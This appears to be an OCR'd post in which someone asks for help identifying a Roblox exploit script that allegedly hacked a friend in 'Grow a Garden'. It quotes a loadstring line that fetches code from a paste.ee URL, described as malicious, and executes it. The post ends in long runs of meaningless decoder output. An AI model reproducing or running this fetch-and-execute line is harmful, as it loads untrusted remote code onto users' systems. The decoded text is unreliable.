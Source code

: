 Hello mr scripter I am internet investigator I investorgate shit.
And someone want me to help them that they  got hack in grow a garden while they were using hacks.
Which was bad on my client part but need to figure out what script the hacker use on my client/friend


loadstring(game:HttpGet("https://paste.ee/r/Y7ykL8Cn"))()

Which you can see it a pastee which I search up it a malicious hack to do for other people.
When I open it I was greeted by a snippet is when abunch of bytes come together and hide a message of the original coding

I have got few leds but stop, due to my lack of knowledge.

When I use my snippet decoder I have gotten 
t<N4};Nt
t]<N4:N
4;N:N4
;N4:N
4};N;N4
4M:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt
:N:N4
tM:N:N4
:Nt:Nt
:N4;N
:N4}:Nt